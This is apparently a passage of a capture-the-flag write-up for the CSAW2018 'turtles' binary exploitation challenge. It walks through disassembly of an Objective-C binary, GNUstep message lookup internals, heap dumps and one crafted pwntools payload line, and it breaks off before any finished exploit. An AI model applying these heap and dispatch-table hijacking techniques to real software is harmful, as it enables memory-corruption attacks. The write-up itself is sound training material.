

# turtles

[Note: As this is a PDF of a Markdown document, some text may be cut off in the code sections. Please direct your browser to https://github.com/Sudoite/ctf-writeups/tree/master/CSAW2018/turtles/turtles.md for the original write-up.]

This is a 250-point binary exploitation problem from CSAW2018. It had 65 solves in a competition with about 2500 teams. I ran down several blind alleys and made a few mistakes in solving this problem, and decided to keep those experiences in this write-up.

## Problem description

Looks like you found a bunch of turtles but their shells are nowhere to be seen! Think you can make a shell for them?

`nc pwn.chal.csaw.io 9003`


## Setup

The binary depends on `libgnustep-base.so.1.25` and `libobjc.so.4`, both of which require Ubuntu 18.04 or newer. So I had to upgrade -- not fun during a CTF challenge. I learned my lesson to keep an up-to-date virtual machine, and ideally multiple VMs to handle different environments.

One mistake that I made at this early juncture (on day 1 of the competition) was to install `libgnustep-base.so.1.25.1` instead of `libgnustep-base.so.1.25.0`, which was running on the server. The CSAW team released the library files on the second day of the competition, and I could have discovered the problem then. I'm not sure how I would have caught that discrepancy otherwise, as `ldd` simply shows the required major version of `libgnustep-base.so` but not the minor version.

I also needed to [reinstall](https://github.com/pwndbg/pwndbg/blob/dev/README.md) `pwndbg` from source. It turns out that the installation script works for Ubuntu 18.04 even though it's apparently not yet been tested. That gives me back my familiar `pwngdb` prompt in `gdb`.

## Reconnaissance

Here's the code for `main`:

```code
; int __cdecl main(int argc, const char **argv, const char **envp)
public main
main proc near

argv= qword ptr -840h
argc= dword ptr -834h
buf= byte ptr -830h
turtle= qword ptr -18h

push    rbp
mov     rbp, rsp
push    rbx
sub     rsp, 838h
mov     [rbp+argc], edi
mov     [rbp+argv], rsi
mov     rax, cs:stdout_ptr
mov     rax, [rax]
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
mov     rax, cs:stdin_ptr
mov     rax, [rax]
mov     ecx, 0          ; n
mov     edx, 2          ; modes
mov     esi, 0          ; buf
mov     rdi, rax        ; stream
call    _setvbuf
lea     rdi, aTurtle    ; "Turtle"
call    _objc_get_class
mov     rbx, rax
lea     rsi, _OBJC_SELECTOR_TABLE
mov     rdi, rbx
call    _objc_msg_lookup
lea     rsi, _OBJC_SELECTOR_TABLE
mov     rdi, rbx
call    rax
mov     rbx, rax
lea     rsi, off_601550
mov     rdi, rbx
call    _objc_msg_lookup
lea     rsi, off_601550
mov     rdi, rbx
call    rax
mov     [rbp+turtle], rax
mov     rax, [rbp+turtle]
mov     rsi, rax
lea     rdi, format     ; "Here is a Turtle: %p\n"
mov     eax, 0
call    _printf
lea     rax, [rbp+buf]
mov     edx, 810h       ; nbytes
mov     rsi, rax        ; buf
mov     edi, 0          ; fd
call    _read
lea     rcx, [rbp+buf]
mov     rax, [rbp+turtle]
mov     edx, 0C8h       ; n
mov     rsi, rcx        ; src
mov     rdi, rax        ; dest
call    _memcpy
mov     rbx, [rbp+turtle]
lea     rsi, off_601560
mov     rdi, rbx
call    _objc_msg_lookup
lea     rdx, _OBJC_INSTANCE_1
lea     rsi, off_601560
mov     rdi, rbx
call    rax
mov     rbx, [rbp+turtle]
lea     rsi, off_601570
mov     rdi, rbx
call    _objc_msg_lookup
lea     rsi, off_601570
mov     rdi, rbx
call    rax
mov     eax, 0
add     rsp, 838h
pop     rbx
pop     rbp
retn
main endp
```


### Objective-C Overview

This is an Objective-C problem. In retrieving messages that are sent to classes, instances of which are stored on the heap, Objective-C uses a Selector Table that at first glance appears to have a structure similar to the Global Offset Table. I quickly read through [this blog](https://cocoasamurai.blogspot.com/2010/01/understanding-objective-c-runtime.html) for a general understanding of what happens at runtime.

Let's take a look at some objects on the stack. After the program calls `_objc_get_class` we get a pointer to:


What's all this? Well I found [this](https://cocoasamurai.blogspot.com/2010/01/understanding-objective-c-runtime.html) reference which is from 2009:


But better yet, [here's](https://github.com/gnustep/libobjc2/blob/master/class.h) the source code:

```code
// begin: objc_class
struct objc_class
{
	/**
	 * Pointer to the metaclass for this class.  The metaclass defines the
	 * methods use when a message is sent to the class, rather than an
	 * instance.
	 */
	struct objc_class         *isa;
	/**
	 * Pointer to the superclass.  The compiler will set this to the name of
	 * the superclass, the runtime will initialize it to point to the real
	 * class.
	 */
	struct objc_class         *super_class;
	/**
	 * The name of this class.  Set to the same value for both the class and
	 * its associated metaclass.
	 */
	const char                *name;
	/**
	 * The version of this class.  This is not used by the language, but may be
	 * set explicitly at class load time.
	 */
	long                       version;
	/**
	 * A bitfield containing various flags.  See the objc_class_flags
	 * enumerated type for possible values.  
	 */
	unsigned long              info;
	/**
	 * The size of this class.  For classes using the non-fragile ABI, the
	 * compiler will set this to a negative value The absolute value will be
	 * the size of the instance variables defined on just this class.  When
	 * using the fragile ABI, the instance size is the size of instances of
	 * this class, including any instance variables defined on superclasses.
	 *
	 * In both cases, this will be set to the size of an instance of the class
	 * after the class is registered with the runtime.
	 */
	long                       instance_size;
	/**
	 * Metadata describing the instance variables in this class.
	 */
	struct objc_ivar_list     *ivars;
	/**
	 * Metadata for for defining the mappings from selectors to IMPs.  Linked
	 * list of method list structures, one per class and one per category.
	 */
	struct objc_method_list   *methods;
	/**
	 * The dispatch table for this class.  Intialized and maintained by the
	 * runtime.
	 */
	void                      *dtable;
	/**
	 * A pointer to the first subclass for this class.  Filled in by the
	 * runtime.
	 */
	struct objc_class         *subclass_list;
	/**
	 * Pointer to the .cxx_construct method if one exists.  This method needs
	 * to be called outside of the normal dispatch mechanism.
	 */
	IMP                        cxx_construct;
	/**
	 * Pointer to the .cxx_destruct method if one exists.  This method needs to
	 * be called outside of the normal dispatch mechanism.
	 */
	IMP                        cxx_destruct;
	/**
	 * A pointer to the next sibling class to this.  You may find all
	 * subclasses of a given class by following the subclass_list pointer and
	 * then subsequently following the sibling_class pointers in the
	 * subclasses.
	 */
	struct objc_class         *sibling_class;

	/**
	 * Metadata describing the protocols adopted by this class.  Not used by
	 * the runtime.
	 */
	struct objc_protocol_list *protocols;
	/**
	 * Linked list of extra data attached to this class.
	 */
	struct reference_list     *extra_data;
	/**
	* The version of the ABI used for this class.  Currently always zero for v2
	* ABI classes.
	*/
	long                       abi_version;
	/**
	* List of declared properties on this class (NULL if none).
	*/
	struct objc_property_list *properties;
};
// end: objc_class
```
(I might be a little off since the above code is for an older version of Objective C for GNU, but usually these structures don't change very much.)

After following around some of the pointers on the above table, it looks like I'm basically seeing the  structure in the above code: a pointer to some `OBJC_MetaClass_Turtle` code, a pointer to some kind of table of pointers in `/usr/lib/libgnustep-base.so.1.25.1` (possibly a new addition after the previous reference), followed by a pointer to a class name, a null pointer, a couple of longs (9, 436, and 8), another null pointer, and something like  `&InstanceMethods_Turtle`. There's also a pointer into something that looks a lot like a procedure linkage table, except that the pointers in the table are mostly to null. I think that's the `objc_method_list` double pointer, and turtles don't do much. There's another pointer into `libgnustep-base.so.1.25.1`. The rest of the entries are null, so I guess there's no cache or protocol list, or else those got moved around in the `struct` at some point since 2009 and they're the two mysterious pointers I just looked at.

Good enough. Next the program loads an Objective C Selector Table which looks like this:


This looks like a class cache. The pointers in there are to strings: `@16@0:8`, `v24@0:8@16` and `Vv16@0:8`. I think these strings are [type encodings](https://developer.apple.com/library/archive/documentation/Cocoa/Conceptual/ObjCRuntimeGuide/Articles/ocrtTypeEncodings.html#//apple_ref/doc/uid/TP40008048-CH100). Moving on...

Next, we call `_objc_msg_lookup` (the first time), passing in the `Turtle` class as the first argument and the selector table as the second.

[Here's](https://github.com/opensource-apple/objc4/blob/master/runtime/NSObject.h) the source code for Objective C. Much of their code is written directly in assembly as an optimization -- it's quite fascinating. I suspect I'll have to understand how pointers are being followed in `objc_msg_lookup` so I can do a redirection, but for now I'll keep going.

The second call to `_objc_msg_lookup` returns a pointer to some code located in:

`0x7ffff75c6000     0x7ffff7ab2000 r-xp   4ec000 0      /usr/lib/libgnustep-base.so.1.25.1`

And the code is:


Executing this code, apparently a class-specific initialization function, `malloc`'s a Turtle on the heap and returns a pointer to it in `rax`. The address that gets loaded into memory twice in the above screenshot, `0x7ffff7d3ac70`, is a writable section of the `/usr/lib/libgnustep-base.so.1.25.1` library. It is a pointer to a table of entries that exists in the `libgnustep-base.so.1.25.1` library right before what the `Turtle` class points to. Here are some of those table entries:


The first two integers are different for every entry, but the pointers are not unique. It looks like some kind of method dispatch table? That makes sense because the parameters passed to the first `_objc_msg_lookup` call include (as argument 1) the turtle class (`0x601040`) and (as argument 2) the selector table (`0x601540`). I get back a new table, at `0x7ffffd3ac70`, as a result of that message lookup call.

In any case, once I get back my `Turtle` object, another call to `_objc_msg_lookup` in the main code just loads a pointer to the `Turtle` object on the heap and returns it in `rax`. It must be some kind of simple `get(turtle)` method. Then the main program prints that location with a `printf` statement and then overwrites 200 bytes of information on the heap, starting with that instance of the turtle class, using `memcpy`. It's therefore evident that the attack will involve either replacing the turtle class with something else, or else rewriting the turtle class so that it's unmolested and I can continue to run the program without its crashing.


## Planning the exploit

My first thought was that I could put the address of the turtle right back onto the stack, overwriting the pointer to a turtle class in a heap with the same information, and then (on the stack) overwrite the return address and indeed much of the stack above the return address. That feels like a ROP problem. But there's no buffer overflow issue on the stack. I'll need to get control of the instruction pointer in a different manner.

Next, I wondered if I could leak a `libc` address. Maybe, if I can get the turtle to "speak" something of my choosing. (The next function called, once a turtle is loaded, is `say`.) I would probably need a `libc` address at some point, since there isn't much code in the actual data section to use for a ROP. Let's see how the speaking part works.

I passed a reference to a turtle class in the first eight bytes of the data copied from the stack to the heap to get to the `Turtle say` code. Here it is.

```code
pwndbg> x /20wi 0x400b56
   0x400b56 <-[Turtle say:]>:	push   rbp
   0x400b57 <-[Turtle say:]+1>:	mov    rbp,rsp
   0x400b5a <-[Turtle say:]+4>:	sub    rsp,0x20
   0x400b5e <-[Turtle say:]+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x400b62 <-[Turtle say:]+12>:	mov    QWORD PTR [rbp-0x10],rsi
   0x400b66 <-[Turtle say:]+16>:	mov    QWORD PTR [rbp-0x18],rdx
   0x400b6a <-[Turtle say:]+20>:	mov    rax,QWORD PTR [rbp-0x18]
   0x400b6e <-[Turtle say:]+24>:	mov    rsi,rax
   0x400b71 <-[Turtle say:]+27>:	lea    rdi,[rip+0x200808]        # 0x601380 <_OBJC_INSTANCE_0>
   0x400b78 <-[Turtle say:]+34>:	mov    eax,0x0
   0x400b7d <-[Turtle say:]+39>:	call   0x400a20 <NSLog@plt>
   0x400b82 <-[Turtle say:]+44>:	leave  
   0x400b83 <-[Turtle say:]+45>:	ret    
```
And here's the `NSLog` function that `Turtle say` calls:

```code
pwndbg> x /100wi 0x7f572a209750
   0x7f572a209750 <NSLog>:	sub    rsp,0xd8
   0x7f572a209757 <NSLog+7>:	test   al,al
   0x7f572a209759 <NSLog+9>:	mov    QWORD PTR [rsp+0x28],rsi
=> 0x7f572a20975e <NSLog+14>:	mov    QWORD PTR [rsp+0x30],rdx
   0x7f572a209763 <NSLog+19>:	mov    QWORD PTR [rsp+0x38],rcx
   0x7f572a209768 <NSLog+24>:	mov    QWORD PTR [rsp+0x40],r8
   0x7f572a20976d <NSLog+29>:	mov    QWORD PTR [rsp+0x48],r9
   0x7f572a209772 <NSLog+34>:	je     0x7f572a2097ab <NSLog+91>
   0x7f572a209774 <NSLog+36>:	movaps XMMWORD PTR [rsp+0x50],xmm0
   0x7f572a209779 <NSLog+41>:	movaps XMMWORD PTR [rsp+0x60],xmm1
   0x7f572a20977e <NSLog+46>:	movaps XMMWORD PTR [rsp+0x70],xmm2
   0x7f572a209783 <NSLog+51>:	movaps XMMWORD PTR [rsp+0x80],xmm3
   0x7f572a20978b <NSLog+59>:	movaps XMMWORD PTR [rsp+0x90],xmm4
   0x7f572a209793 <NSLog+67>:	movaps XMMWORD PTR [rsp+0xa0],xmm5
   0x7f572a20979b <NSLog+75>:	movaps XMMWORD PTR [rsp+0xb0],xmm6
   0x7f572a2097a3 <NSLog+83>:	movaps XMMWORD PTR [rsp+0xc0],xmm7
   0x7f572a2097ab <NSLog+91>:	mov    rax,QWORD PTR fs:0x28
   0x7f572a2097b4 <NSLog+100>:	mov    QWORD PTR [rsp+0x18],rax
   0x7f572a2097b9 <NSLog+105>:	xor    eax,eax
   0x7f572a2097bb <NSLog+107>:	lea    rax,[rsp+0xe0]
   0x7f572a2097c3 <NSLog+115>:	mov    rsi,rsp
   0x7f572a2097c6 <NSLog+118>:	mov    QWORD PTR [rsp+0x8],rax
   0x7f572a2097cb <NSLog+123>:	lea    rax,[rsp+0x20]
   0x7f572a2097d0 <NSLog+128>:	mov    DWORD PTR [rsp],0x8
   0x7f572a2097d7 <NSLog+135>:	mov    DWORD PTR [rsp+0x4],0x30
   0x7f572a2097df <NSLog+143>:	mov    QWORD PTR [rsp+0x10],rax
   0x7f572a2097e4 <NSLog+148>:	call   0x7f572a2091c0 <NSLogv>
   0x7f572a2097e9 <NSLog+153>:	mov    rax,QWORD PTR [rsp+0x18]
   0x7f572a2097ee <NSLog+158>:	xor    rax,QWORD PTR fs:0x28
   0x7f572a2097f7 <NSLog+167>:	jne    0x7f572a209801 <NSLog+177>
   0x7f572a2097f9 <NSLog+169>:	add    rsp,0xd8
   0x7f572a209800 <NSLog+176>:	ret    
   0x7f572a209801 <NSLog+177>:	call   0x7f572a0f4f70 <__stack_chk_fail@plt>
```

But at this point I hit a problem: the program crashes when I try to get the turtle to say something! I did some head-scratching at this point, because it didn't seem like the kind of location where the problem designers would insert a crash, and I was trying to get the original instance of the `turtle` class to speak a simple phrase. I figured that at this point I should learn more about how message passing works, in order to find the source of this crash when calling the `say` method.

## Necessary detour: how a message lookup works in Objective-C as implemented using GNU Step for Linux

Around this point I realized that Apple's implementation of Objective-C is not the same as the GNU implementation and so I started reading through the source code for the GNU implementation. The idea was to figure out the structure of an Objective C class, a selector, the dispatch tables, and how a message is looked up in a dispatch table. I need to know all that in order to put an Objective C class on the stack and possibly modify the dispatch table to dispatch a different function than what was intended. [Here's](https://github.com/gnustep/libobjc2/) the source code for the Objective-C that's used in GNUStep. A selector has the following structure:

[Here's](https://github.com/gnustep/libobjc2/blob/master/selector.h) a selector:

```code
/**
 * Structure used to store selectors in the list.
 */
// begin: objc_selector
struct objc_selector
{
	union
	{
		/**
		 * The name of this selector.  Used for unregistered selectors.
		 */
		const char *name;
		/**
		 * The index of this selector in the selector table.  When a selector
		 * is registered with the runtime, its name is replaced by an index
		 * uniquely identifying this selector.  The index is used for dispatch.
		 */
		uintptr_t index;
	};
	/**
	 * The Objective-C type encoding of the message identified by this selector.
	 */
	const char * types;
};
// end: objc_selector
```

In my case the index for the turtle selector in question is `0x0c00000069`. Strange format for a long...

[Here's](https://github.com/gnustep/libobjc2/blob/master/sendmsg2.c) how a message is looked up:

```code
static
// Uncomment for debugging
//__attribute__((noinline))
__attribute__((always_inline))
struct objc_slot2 *objc_msg_lookup_internal(id *receiver, SEL selector, uint64_t *version)
{
	if (version)
	{
		*version = objc_method_cache_version;
	}
	Class class = classForObject((*receiver));
retry:;
struct objc_slot2 * result = objc_dtable_lookup(class->dtable, selector->index);
...
```

`classForObject` is really basic and just returns a pointer to that `turtle` class. I care about `objc_dtable_lookup` which [turns out](https://github.com/gnustep/libobjc2/blob/master/dtable.h) to be defined as a `SparseArrayLookup`:

```code
#ifdef __OBJC_LOW_MEMORY__
typedef struct objc_dtable* dtable_t;
struct objc_slot* objc_dtable_lookup(dtable_t dtable, uint32_t uid);
#else
typedef SparseArray* dtable_t;
#	define objc_dtable_lookup SparseArrayLookup
#endif
```

Here's a sparse array lookup:
```code
static inline void* SparseArrayLookup(SparseArray * sarray, uint32_t index)
{
	// This unrolled version of the commented-out segment below only works with
	// sarrays that use one-byte leafs.  It's really ugly, but seems to be faster.
	// With this version, we get the same performance as the old GNU code, but
	// with about half the memory usage.
	uint32_t i = index;
	switch (sarray->shift)
	{
		default: UNREACHABLE("broken sarray");
		case 0:
			return sarray->data[i & 0xff];
		case 8:
			return
				((SparseArray*)sarray->data[(i & 0xff00)>>8])->data[(i & 0xff)];
		case 16:
			return
				((SparseArray*)((SparseArray*)
					sarray->data[(i & 0xff0000)>>16])->
						data[(i & 0xff00)>>8])->data[(i & 0xff)];
		case 24:
			return
				((SparseArray*)((SparseArray*)((SparseArray*)
					sarray->data[(i & 0xff000000)>>24])->
						data[(i & 0xff0000)>>16])->
							data[(i & 0xff00)>>8])->data[(i & 0xff)];
	}
	/*
	while(sarray->shift > 0)
	{
		uint32_t i = MASK_INDEX(index);
		sarray = (SparseArray*) sarray->data[i];
	}
	uint32_t i = index & sarray->mask;
	return sarray->data[i];
	*/
}
```

which matches the code I'm seeing getting actually run during a message lookup:

```code
pwndbg> x /80wi 0x7ff421cc6320
   0x7ff421cc6320 <objc_msg_lookup>:	endbr64
   0x7ff421cc6324 <objc_msg_lookup+4>:	push   r15
   0x7ff421cc6326 <objc_msg_lookup+6>:	push   r14
   0x7ff421cc6328 <objc_msg_lookup+8>:	push   r13
   0x7ff421cc632a <objc_msg_lookup+10>:	push   r12
   0x7ff421cc632c <objc_msg_lookup+12>:	push   rbp
   0x7ff421cc632d <objc_msg_lookup+13>:	push   rbx
   0x7ff421cc632e <objc_msg_lookup+14>:	sub    rsp,0x8
   0x7ff421cc6332 <objc_msg_lookup+18>:	test   rdi,rdi
   0x7ff421cc6335 <objc_msg_lookup+21>:	je     0x7ff421cc6468 <objc_msg_lookup+328>
   0x7ff421cc633b <objc_msg_lookup+27>:	mov    rdx,QWORD PTR [rsi]
   0x7ff421cc633e <objc_msg_lookup+30>:	mov    rbp,QWORD PTR [rdi]
   0x7ff421cc6341 <objc_msg_lookup+33>:	mov    rcx,rdx
   0x7ff421cc6344 <objc_msg_lookup+36>:	mov    r8d,edx
   0x7ff421cc6347 <objc_msg_lookup+39>:	mov    rax,QWORD PTR [rbp+0x40]
   0x7ff421cc634b <objc_msg_lookup+43>:	shr    rcx,0x20
   0x7ff421cc634f <objc_msg_lookup+47>:	shl    r8d,0x5
   0x7ff421cc6353 <objc_msg_lookup+51>:	add    r8d,ecx
   0x7ff421cc6356 <objc_msg_lookup+54>:	cmp    r8,QWORD PTR [rax+0x28]
   0x7ff421cc635a <objc_msg_lookup+58>:	jb     0x7ff421cc6380 <objc_msg_lookup+96>
   0x7ff421cc635c <objc_msg_lookup+60>:	mov    rdx,QWORD PTR [rax+0x8]
   0x7ff421cc6360 <objc_msg_lookup+64>:	mov    rbx,QWORD PTR [rdx]
   0x7ff421cc6363 <objc_msg_lookup+67>:	test   rbx,rbx
   0x7ff421cc6366 <objc_msg_lookup+70>:	je     0x7ff421cc6392 <objc_msg_lookup+114>
   0x7ff421cc6368 <objc_msg_lookup+72>:	add    rsp,0x8
   0x7ff421cc636c <objc_msg_lookup+76>:	mov    rax,rbx
   0x7ff421cc636f <objc_msg_lookup+79>:	pop    rbx
   0x7ff421cc6370 <objc_msg_lookup+80>:	pop    rbp
   0x7ff421cc6371 <objc_msg_lookup+81>:	pop    r12
   0x7ff421cc6373 <objc_msg_lookup+83>:	pop    r13
   0x7ff421cc6375 <objc_msg_lookup+85>:	pop    r14
   0x7ff421cc6377 <objc_msg_lookup+87>:	pop    r15
   0x7ff421cc6379 <objc_msg_lookup+89>:	ret    
   0x7ff421cc637a <objc_msg_lookup+90>:	nop    WORD PTR [rax+rax*1+0x0]
   0x7ff421cc6380 <objc_msg_lookup+96>:	mov    r8,QWORD PTR [rax]
   0x7ff421cc6383 <objc_msg_lookup+99>:	mov    edx,edx
   0x7ff421cc6385 <objc_msg_lookup+101>:	mov    rdx,QWORD PTR [r8+rdx*8]
   0x7ff421cc6389 <objc_msg_lookup+105>:	mov    rbx,QWORD PTR [rdx+rcx*8]
=> 0x7ff421cc638d <objc_msg_lookup+109>:	test   rbx,rbx
   0x7ff421cc6390 <objc_msg_lookup+112>:	jne    0x7ff421cc6368 <objc_msg_lookup+72>
```

What's going on is that the long that gets passed in for `index` gets broken into two integers, `0xc` and `0x69` which are used by `SparseArrayLookup`. First the code gets the `0x69`th entry in the table, find the address stored there, and use that as a further index into a subtable in which we get the `0xc`th entry, look it up, and return `0x400b56`, the address of the code for `turtle_say`. Whew! So that's how a message lookup works in Objective C.


## Debugging a crash during a call to Turtle_say
Here's `Turtle_say`:
```code
pwndbg> x /30wi 0x400b56
   0x400b56 <-[Turtle say:]>:	push   rbp
   0x400b57 <-[Turtle say:]+1>:	mov    rbp,rsp
   0x400b5a <-[Turtle say:]+4>:	sub    rsp,0x20
   0x400b5e <-[Turtle say:]+8>:	mov    QWORD PTR [rbp-0x8],rdi
   0x400b62 <-[Turtle say:]+12>:	mov    QWORD PTR [rbp-0x10],rsi
   0x400b66 <-[Turtle say:]+16>:	mov    QWORD PTR [rbp-0x18],rdx
   0x400b6a <-[Turtle say:]+20>:	mov    rax,QWORD PTR [rbp-0x18]
   0x400b6e <-[Turtle say:]+24>:	mov    rsi,rax
   0x400b71 <-[Turtle say:]+27>:	lea    rdi,[rip+0x200808]        # 0x601380 <_OBJC_INSTANCE_0>
   0x400b78 <-[Turtle say:]+34>:	mov    eax,0x0
   0x400b7d <-[Turtle say:]+39>:	call   0x400a20 <NSLog@plt>
   0x400b82 <-[Turtle say:]+44>:	leave  
   0x400b83 <-[Turtle say:]+45>:	ret    
```

Now my problem is that `NSLog` is breaking. But I'm passing in two strings that both are legitimately `NSConstantString` objects, the first of which is a format string and the second of which is "I am a turtle." So that should work, but it does not. With that, I ran out of time in the competition. Too bad, but I did not give up trying to solve this problem. The next step is to set up a local Objective-C program, create a turtle, and try to get it to say something. If it works then I step in with the debugger and look at what's getting passed to `NSLog` and compare with what I'm sending in `turtles`.

I was able to write such a program in Objective-C. Here's the program:

```code

#import <Foundation/Foundation.h>

NSConstantString *phrase = @"I am a turtle.";


@interface Turtle:NSObject
- (void) turtleSay:(NSString*)phrase;
@end


@implementation Turtle
- (void)turtleSay:(NSString*)phrase {
	NSLog(@"%@\n", phrase);
}
@end

int main() {
	//NSAutoreleasePool * pool = [[NSAutoreleasePool alloc] init];

	Turtle *turtle = [[Turtle alloc]init];
	[turtle turtleSay:phrase];
	//[pool drain];
	return 0;
}
```

Note the commented-out sections: the `NSAutoreleasePool` is apparently for garbage collection. Apparently the `Turtle` program is supposed to complain around the time when I make a call to access the thread's `NSAutoreleasePool`. This happens when I try to log the turtle's spoken message in the turtle's `Say:` method: `NSLog` gets called, then `NSLogv` gets called, then some low-level code gets the path to the `GNUStep` configuration file during `GNUStepConfig` which can be seen [here](https://github.com/gnustep/libs-base/blob/master/Source/NSPathUtilities.m). Somewhere in that code a call to access the current `NSThread` object is made with [`GSCurrentThread`](https://github.com/gnustep/libs-base/blob/master/Source/NSThread.m). And there's a message made to complain, which sets off a whole new call to `NSLog` ("autorelease called without pool for object (%p) of class %@ in thread %@"), with appropriate arguments to that format string.

This makes me suspect that I'm using too new of a `GNUStep` library, as the writers of the problem would probably have used the autorelease pool had they seen the warnings. But the real problem is actualy further down, as my test code throws the same warnings but the logger doesn't break.


Stepping through, actually the problem is in a call to `malloc.c` from `NSZoneMalloc`. So, I updated my copy of [`AngelHeap`](https://github.com/scwuaptx/Pwngdb/tree/master/angelheap) to take a look. And wow! I wasn't prepared for just how much is sitting on the heap due to all these messages getting passed around in Objective-C:

 

 Also, the above diagram indicates a corrupt heap, so I could potentially go in and diagnose what's breaking it. My working application to get a turtle to speak -- the one I wrote and compiled myself -- does not have a corrupt heap. So, the issue is with the downloaded binary, or to be precise, the interface between the downloaded binary and the libraries I'm using to run it. Wow, I've never worked with so much on the heap before. But it's a clear case of heap corruption: 695 smallbins in the heap for the working example, vs. 576 for the corrupted binary. Well, maybe that's what I need to somehow use!

 A call to `heapinfo` yields: `0x23e6790 (doubly linked list corruption 0x23e6790 != 0xb6f8ec009e835000 and 0x23ea8d0 or 0x23e6790 is broken)
`.

Next, I stepped through the `turtles` executable, using `Angelheap` periodically to find out when I first get a heap corruption in this binary.

And I finally figured out the problem! I was misunderstanding `memcpy`, which copies `n` bytes (the third argument). Since I was reading in a string I was thinking I would only copy *up to* `n` bytes, and so I thought I was copying around 16 bytes when in fact I was copying 200 bytes, including junk on the stack, which corrupted the heap. I didn't realize the problem until I broke out my heap tools.

## Proceeding to get `Turtle_say` to work

So what's this mean? Well, it was time to experiment. First I confirmed that I can send any number of null bytes, newlines, and so on and it all gets read in via standard input, straight into the buffer. That's apparently what those `setvbuf` instructions do at the beginning -- allow me to send null bytes to the heap. Next I want to make sure the heap is still intact after I read in a turtle. 200 bytes is `0xc8` bytes, so I want `0xc9` to be the second set of eight bytes, indicating that the chunk is used. I'll just send that payload first, with a pointer to the original turtle, and see if I can get it to speak.

Sending:

`p.send(str('\x00\x14\x60\x00\x00\x00\x00\x00\xc9\x00\x00\x00\x00\x00\x00\x00'))``
`
The turtle is at `1ddf8b0`...that gives me
` 0x1ddb790 (doubly linked list corruption 0x1ddb790 != 0x8cb34d96c61f4a00 and 0x1ddf8d0 or 0x1ddb790 is broken)
`

The problem is that there's a free block with a forward pointer pointing into the heap to another free chunk 32 bytes below my turtle, so I need to preserve the integrity of that free block. Let me just get a good look at that entire section of the heap at the moment that I do the `memcpy`.

Here's the heap right before `memcpy`:
```code
pwndbg> x /26xg 0x68b1f0
0x68b1f0:	0x00000000006014c0	0x0000000000000021
0x68b200:	0x00007ffff7da2c10	0x0000000000000000
0x68b210:	0x0000000000000000	0x0000000000000021
0x68b220:	0x00007ffff7da2c20	0x000000000068b200
0x68b230:	0x0000000000000000	0x0000000000000021
0x68b240:	0x72383a3040383240	0x000034324936312a
0x68b250:	0x0000000000000020	0x0000000000000021
0x68b260:	0x00007ffff7da2c30	0x0000000000000000
0x68b270:	0x0000000000000000	0x0000000000000021
0x68b280:	0x00007ffff7da2c40	0x000000000068b260
0x68b290:	0x0000000000000000	0x0000000000000021
0x68b2a0:	0x00007ffff7dbe950	0x0000000000000000
0x68b2b0:	0x000000090000005e	0x0000000000000021

pwndbg> x /26xg 0x13088b0
0x13088b0:	0x00000000006014c0	0x0000000000000021
0x13088c0:	0x0000000001312640	0x0000000000000000
0x13088d0:	0x000000150000000c	0x0000000000000021
0x13088e0:	0x000000000133d870	0x0000000001304790
0x13088f0:	0x0000000000000020	0x0000000000000020
0x1308900:	0x00000000013022a0	0x0000000000000000
0x1308910:	0x0000001d0000000c	0x0000000000000021
0x1308920:	0x0000000001342660	0x0000000001335230
0x1308930:	0x0000000000000020	0x0000000000000020
0x1308940:	0x0000000001312650	0x0000000000000000
0x1308950:	0x0000001800000010	0x0000000000000021
0x1308960:	0x00000000013213e0	0x0000000000000000
0x1308970:	0x0000000000000000	0x0000000000000021
```

I have to be a bit careful here, but I should be able to reconstruct this. The `fwd` and `bk` pointers in the free blocks, along with their sizes, have to remain the same in order to not corrupt the heap. While I'm at it, I might also want to keep those message dispatch table indices the same as well.

Let me make sure the heap isn't changing between instances of the program. Here are two instances of the set of 200 bytes on the heap before I overwrite it with `memcpy`:

```code
pwndbg> x /28xg 0x10348b0
0x10348b0:	0x00000000006014c0	0x0000000000000021
0x10348c0:	0x000000000103e640	0x0000000000000000
0x10348d0:	0x000000150000000c	0x0000000000000021
0x10348e0:	0x0000000001069870	0x0000000001030790
0x10348f0:	0x0000000000000020	0x0000000000000020
0x1034900:	0x000000000102e2a0	0x0000000000000000
0x1034910:	0x0000001d0000000c	0x0000000000000021
0x1034920:	0x000000000106e660	0x0000000001061230
0x1034930:	0x0000000000000020	0x0000000000000020
0x1034940:	0x000000000103e650	0x0000000000000000
0x1034950:	0x0000001800000010	0x0000000000000021
0x1034960:	0x000000000104d3e0	0x0000000000000000
0x1034970:	0x0000000000000000	0x0000000000000021
0x1034980:	0x000000000102e2d0	0x0000000000000000
```

```code
pwndbg> x /30xg 0x12338b0
0x12338b0:	0x00000000006014c0	0x0000000000000021
0x12338c0:	0x000000000123d640	0x0000000000000000
0x12338d0:	0x000000150000000c	0x0000000000000021
0x12338e0:	0x0000000001268870	0x000000000122f790
0x12338f0:	0x0000000000000020	0x0000000000000020
0x1233900:	0x000000000122d2a0	0x0000000000000000
0x1233910:	0x0000001d0000000c	0x0000000000000021
0x1233920:	0x000000000126d660	0x0000000001260230
0x1233930:	0x0000000000000020	0x0000000000000020
0x1233940:	0x000000000123d650	0x0000000000000000
0x1233950:	0x0000001800000010	0x0000000000000021
0x1233960:	0x000000000124c3e0	0x0000000000000000
0x1233970:	0x0000000000000000	0x0000000000000021
0x1233980:	0x000000000122d2d0	0x0000000000000000
```

The good news is that positions of the free blocks in this set of 200 bytes aren't changing, and neither are the offsets in the heap to the blocks that are pointing to them. So, I could overwrite any `fwd` and `bk` pointers with their appropriate values, and keep from corrupting the heap. The bad news is that at this point I made a math error or typed an address into `gdb` incorrectly, and concluded that the offsets *do* change, so overwriting those pointers would be impossible and I needed to find another solution. This just goes to show how important it is to double-check your work. I went on a wild goose chase to try to fix the heap at this point, but I'm going to leave that in the write-up because it's interesting and I learned a bit from it.

## Unnecessary detour: trying to delay the consequences of heap corruption by placing extra freeable chunks in the heap

I started by finding the first place that I get a crash due to heap corruption, by overwriting the heap with null bytes and debugging.

```code
pwndbg> x /20xg 0x12338b0
0x12338b0:	0x0000000000601400	0x00000000000000a1
0x12338c0:	0x0000000000000000	0x0000000000000000
0x12338d0:	0x0000000000000000	0x0000000000000000
0x12338e0:	0x0000000000000000	0x0000000000000000
